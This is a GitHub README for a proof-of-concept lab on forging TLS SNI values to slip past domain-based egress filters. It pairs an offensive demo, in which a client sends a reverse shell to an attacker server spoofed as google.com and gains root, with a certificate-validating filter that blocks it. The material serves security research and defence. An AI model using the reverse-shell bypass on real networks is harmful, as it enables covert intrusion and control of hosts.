 # SNI Manipulation

This project demonstrates a proof-of-concept for Server Name Indication (SNI)
manipulation in TLS connections to bypass egress HTTP traffic controls that
filter by domain.

This PoC includes a Terraformed AWS environment and client/server implementations in Go and TypeScript to demonstrate sending reverse shells with spoofed SNI
values to bypass egress HTTP controls. The reverse shells are sent over a WebSocket connection.

A defensive PoC tool is included that explores possible countermeasures.
It filters TLS traffic by SNI value, like Squid proxy, and then goes one step further by validating the target server's certificate. The certificate
validation result is cached for performance, like a stateful firewall does.


## Background

SNI manipulation is a technique to bypass HTTP traffic controls that filter by domain by forging the SNI value in the TLS handshake.

IP addresses are ephemeral and change often with cloud-hosted services, making IP address filters harder to maintain and more likely to break.
Domain filtering is easier to maintain and is less likely to break, but most connections are encrypted by default.
There are two options for filtering encrypted traffic by domain:
1. SNI inspection of the TLS handshake
2. TLS decryption and inspection of the payload

SNI inspection relies on a value supplied by the client during the TLS handshake, a variant of "trusting the client".
This opens domain filtering by SNI inspection up to spoofing attacks (SNI manipulation).

## Build the PoC and Login to the Hosts

Build the Go server, client, and filter. The binaries are placed in the `dist` directory.

```sh
make build
```

Build the Terraformed AWS environment (or use your own).

```sh
cd terraform-aws-sni-filter
terraform init
terraform apply
```

Connect to each host with the following scripts:
- The filtering NAT instance: `./scripts/nat-login.sh`
- The "attacker" host: `./scripts/attacker-login.sh`
- The internal host: `./scripts/internal-login.sh`

## Getting Started

### SNI Bypass (Offense)

On the intermediate router/NAT host, run the filtering proxy that blocks TLS
traffic by SNI value. This works just like Squid proxies, AWS Network Firewall,
and other TLS inspection proxies.
The host's `iptables` rules will transparently redirect HTTPS traffic to the filtering proxy PoC.

```sh
./filter --domain-file domains.txt --default deny
Allowing domain: ubuntu.com
Allowing domain: .github.com
Allowing domain: google.com
Allowing domain: .google.com
TLS filter listening on port 3130
```

On the "attacker" host, run the server that accepts reverse shells.
The server will listen on all interfaces on port 443. The `sudo` command is
required to bind to port 443.

```sh
sudo ./server 0.0.0.0 443
WebSocket Server is running on wss://0.0.0.0:443
```

On the internal host, run the client to launch a reverse shell at the attacker
server with a spoofed SNI value.

```sh
./client $attacker_ip 443 google.com
```

When the client connects to the server with a forged SNI value, the filtering
proxy will allow the connection because the SNI value is spoofed with `google.com`.
The attacker's server will receive the reverse shell and can begin issuing
commands on the internal host.

```sh
[ec2-user@ip-10-0-1-146 ~]$ sudo ./server 0.0.0.0 443
WebSocket Server is running on wss://0.0.0.0:443

Reverse shell established!

ec2-user@ip-10-0-2-50.ec2.internal:/home/ec2-user $ sudo whoami
root
```

### SNI Filtering With Certificate Validation (Defense)

The filtering proxy PoC has a `--verify` flag that validates the target server's certificate. If the target server does not have a valid certificate that matches the SNI value, the connection is blocked. If the target server has a valid certificate that matches the SNI value, the connection is allowed and the result is cached for performance.
Think of it like a stateful firewall with [`conntrack`](https://man.archlinux.org/man/conntrack.8.en) for TLS connections and domains.

```sh
./filter --domain-file domains.txt --default deny --verify
Certificate verification enabled
Allowing domain: ubuntu.com
Allowing domain: .github.com
Allowing domain: google.com
Allowing domain: .google.com
TLS filter listening on port 3130
```

Now when the client attempts to connect to the attacker server with a forged SNI value...

```sh
./client $attacker_ip 443 google.com
Error connecting to WebSocket server:remote error: tls: bad certificate
```

... the filtering proxy will block the connection with the error "invalid certificate".

```sh
Allowed TLS connection from [10.0.2.50:35006] to [172.253.63.139:443] with SNI [google.com]
Blocked TLS connection from [10.0.2.50:58322] to [100.26.145.239:443] with SNI [google.com] (invalid certificate)
```

The filtering proxy asked the attacker's server for a certificate for `google.com` and tried to validate it. When the attacker's server did not have a valid certificate for `google.com`, the filtering proxy blocked the connection.

## Ethical Considerations

This example is intended for educational and research purposes only. Always obtain proper authorization before testing on any networks or systems you do not own or have explicit permission to test.
